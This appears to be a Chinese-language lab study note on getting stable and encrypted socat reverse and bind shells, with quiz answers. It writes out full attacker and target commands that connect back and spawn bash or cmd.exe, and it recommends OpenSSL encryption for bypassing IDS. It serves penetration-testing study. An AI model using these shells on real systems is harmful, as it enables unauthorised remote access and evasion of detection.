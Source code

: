 ### Stable reverse shell `Linux`
**<font color=#3346FF>Attacker</font>**
```shell=
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
其中``FILE:`tty`,raw,echo=0``相當於`Ctrl + Z` + `stty raw -echo;fg`，以此拿到stable shell。<br>不過socat在大部分的機器上都不會有預設安裝，這時只要上傳先前提到的[socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)上傳到目標機上就能正常執行了。

**<font color=#3346FF>Target</font>**
```shell=
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
`EXEC:"bash -li",pty,stderr,sigint,setsid,sane`這行指令會開啟一個interactive bash session並且附帶5個參數。
* **pty**: allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr**: makes sure that any error messages get shown in the shell(often a problem with non-interactive shells)
* **sigint**: passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid**: creates the process in a new session
* **sane**: stabilises the terminal, attempting to "normalise" it

範例如下:
**(左Attacker 右Target)**<br>![](https://i.imgur.com/5nYNRh0.png)
一開始我們必須在攻擊機開啟兩個listener，圖中左邊為socat的(用來接fully interactive shell)，右邊的為netcat的(用來接non-interactive shell)。<br>先從目標機連回netcat shell(圖中的右方)，圖中有看到能正確回傳shell即代表已經成功拿到reverse shell，此時透過這個shell輸入上方socat的指令(Target)，可以發現圖中左邊成功接收到一個fully interactive bash shell。<br>若要再更進一步的做優化則可以透過上面提到的修改stty的值，接著就可使用像是Vim或Nano等文字編輯器了。

:::info
如果socat shell沒有正確運作，可以試著在指令加上`-d -d`，這樣可以拿到較詳細的資訊。
:::

## Socat Encrypted Shell
加密的shell可以避免被監聽，同時也是種繞過IDS(Intrusion Detection System)的方法。<br>簡單來說，要達到加密的方法可以將上述TCP出現的地方都替換為`OPENSSL`。<br>在使用加密shell之前我們必須先產生一個certificate(覺得怎麼翻都怪怪的所以選擇直接寫原文)。<br>做法如下:<br>`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`<br>這段指令產出一個以cert file形式的2048 bit RSA Key，效期為1年。<br>當你執行這行指令時他會要你輸入certificate的資訊，這些資訊可以是空白或是任意內容。<br>接著我們要將這兩個檔案合併到一個`.pem`檔中，<br>`cat shell.key shell.crt > shell.pem`<br>這時我們啟動reverse shell listener<br>`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`<br>指令中的`verify=0`告訴連線不要嘗試驗證certificate有沒有正確的被認可的機關簽名。<br>接著我們連回已開啟的listener:<br>`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`<br>同樣的也適用在bind shell。<br>Target:<br>`socat OPENSSL_LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`<br>Attacker:<br>`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`<br><font color=#FF0000>這裡要注意的是certificate必須跟listener一起使用，所以在bind shell環境中必須先將PEM file上傳到target才行。</font><br>以下為Reverse shell的範例<br>![](https://i.imgur.com/98q9AzP.png)<br>左圖為攻擊機，照著上方的步驟，先產生cerficate的必要檔案後合併完，接著以socat encrypted shell的方式開啟listener，最後再以右圖的方式連回來。<br>先前提到的tty shell的技巧也能在這使用。

Q.
:::spoiler What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
`socat openssl-listen:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`
:::
:::spoiler If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
`socat openssl:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
:::
    